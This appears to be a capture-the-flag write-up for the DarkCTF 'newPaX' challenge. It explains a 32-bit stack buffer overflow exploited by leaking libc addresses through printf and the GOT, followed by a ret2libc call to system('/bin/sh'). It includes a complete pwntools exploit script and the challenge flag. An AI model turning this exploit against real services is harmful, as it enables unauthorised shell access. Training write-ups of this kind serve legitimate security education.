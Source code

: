 # newPaX

> Even though Solar Designer gave you his times technique, you have to resolve(sort-out) yourself and go deeper. This time rope willn't let you have anything you want but you have to make a fake rope and get everything.
>
> nc pwn.darkarmy.xyz 5001

The corresponding 32-bit binary is provided.

## Description

By dissassembling the binary with Ghidra, we obtain the following vulnerable function:

```c
void vuln(void)
{
  undefined local_34 [44];
  
  read(0,local_34,200);
  return;
}
```

This is an easy buffer overflow. Let's quickly check security:

![checksec](../images/newpax_checksec.png)

NX enabled, so we cannot provide our own shellcode. However there is no canary (so we can directly jump where we want to) and no PIE will just make our exploit easier. 

A quick check with ROPgadget tells us there is not enough code in the binary to create a ROP chain. Therefore we'll resort to a **ret2lib** attack.

## Exploitation

The idea of the ret2lib attack is to create a ROP chain using library code. However, ASLR prevents us from knowing directly where to jump, so we first need to detect the library position. As no library is provided, we also need to know which one is used.

### Jump where we want

The first thing we need is to find the offset before we can put our jump address. I do this quite manually, using gdb.

Python script's relevant portion:

```python
sh.sendline('a'*44 + '111122223333444455556666')
sh.interactive()
```

![cyclic](../images/newpax_cyclic.png)

Therefore we know the jump address is to be placed instead of `3333`. We define `OFFSET = b'a'*52`.

### Disclose addresses of functions

Next, we want to disclose the address of libc functions when loaded. This will first allow us to find the library used, and second to call system to open a shell.

Here we are on a 32-bit system. Functions parameters are pushed on the stack, so we can put the addresses we want directly on the stack.

The exploit works as follow:
1) put the PLT address of the function we want to get on the stack
2) jump to printf function
3) jump back to vuln to try again.

```python
elf = ELF(local_bin)

libc = ""
PRINTF_PLT = elf.plt['printf']
VULN_PLT = elf.symbols['vuln']

def get_addr(func_name):
    FUNC_GOT = elf.got[func_name]
    log.info(func_name + " GOT @ " + hex(FUNC_GOT))
    
    payload = OFFSET + p32(PRINTF_PLT) + p32(VULN_PLT) + p32(FUNC_GOT)
    sh.sendline(payload)
    
    recv = sh.read(4)
    leak = unpack(recv)
    log.info("Leaked libc address,  "+func_name+": "+ hex(leak))
    if libc != "":
        libc.address = leak - libc.symbols[func_name] #Save libc base
        log.info("libc base @ %s" % hex(libc.address))
    
    return hex(leak)

get_addr("printf")
```

### Which libc?

With the above function, we can disclose the addresses of functions. Using the [libc search database](https://libc.blukat.me/), we can find the correct version of the library used and download it. In our case:

```python
libc = ELF("./libc6-i386_2.27-3ubuntu1.2_amd64.so")
```

### Final exploitation

Now that we know which lib is used, we can open our shell. The idea: put the `/bin/sh` string on the stack, then call `system`.

```python
BINSH = next(libc.search("/bin/sh".encode()))
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

payload = OFFSET + p32(SYSTEM) + p32(EXIT) + p32(BINSH)

sh.sendline(payload)
sh.interactive()
```

Flag: `darkCTF{f1n4lly_y0u_r3s0lv3_7h1s_w17h_dlr3s0lv3}`

## Full script

```python
from pwn import *

LOCAL = True
local_bin = './newPaX'
GDB = True

elf = ELF(local_bin)
rop = ROP(elf)

if LOCAL:
    s = ssh(host="2019shell1.picoctf.com", user="RugessNome")
    if GDB:
        sh = s.run("gdb " + local_bin, True)
        print(sh.recvuntil("(gdb)").decode())
        sh.sendline("b exit")
        print(sh.recvuntil("(gdb)").decode())
        sh.sendline("r")
        print(sh.recvuntil("PaX").decode())
        
    else:
        sh = s.run(local_bin)
    libc = "" # ELF("/lib/x86_64-linux-gnu/libc-2.31.so")
else:
    sh = remote('newpax.darkarmy.xyz', 5001)
    libc = ELF("./libc6-i386_2.27-3ubuntu1.2_amd64.so")

OFFSET = b'a'*52

# gadgets
PRINTF_PLT = elf.plt['printf']
VULN_PLT = elf.symbols['vuln']
RET = (rop.find_gadget(['ret']))[0]

log.info("Main start: " + hex(VULN_PLT))
log.info("Puts plt: " + hex(PRINTF_PLT))

def get_addr(func_name):
    FUNC_GOT = elf.got[func_name]
    log.info(func_name + " GOT @ " + hex(FUNC_GOT))
    
    payload = OFFSET + p32(PRINTF_PLT) + p32(VULN_PLT) + p32(FUNC_GOT)
    sh.sendline(payload)
    
    recv = sh.read(4)
    leak = unpack(recv)
    log.info("Leaked libc address,  "+func_name+": "+ hex(leak))
    if libc != "":
        libc.address = leak - libc.symbols[func_name] #Save libc base
        log.info("libc base @ %s" % hex(libc.address))
    
    return hex(leak)

get_addr("printf")

if libc == "":
    exit()

BINSH = next(libc.search("/bin/sh".encode())) #Verify with find /bin/sh
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
log.info("exit %s " % hex(EXIT))

log.info("puts %s " % hex(libc.sym["puts"]))

payload = OFFSET + p32(SYSTEM) + p32(EXIT) + p32(BINSH)

if LOCAL and GDB:
    print(sh.recvuntil("(gdb)").decode())
    sh.sendline("b system")
    print(sh.recvuntil("(gdb)").decode())
    sh.sendline("c")

sh.sendline(payload)

sh.interactive()
```